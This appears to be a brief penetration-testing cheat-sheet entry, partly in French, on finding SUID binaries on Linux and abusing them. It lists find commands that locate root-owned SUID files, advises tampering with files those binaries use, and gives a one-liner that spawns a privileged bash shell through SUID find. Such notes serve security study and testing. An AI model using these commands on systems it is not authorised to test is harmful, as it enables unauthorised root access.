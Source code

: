 ### Trouver des binaires SUID

`find /bin -perm -4000`

`find / -user root -perm -4000 -exec ls -ldb {} \;`

Eventually `strings` on the said SUID file to see its interactions with other files and modify those files instead.

Some SUID binaries have `-exec` options in their man page:

`/usr/bin/find zizi -exec /bin/bash -p \;`
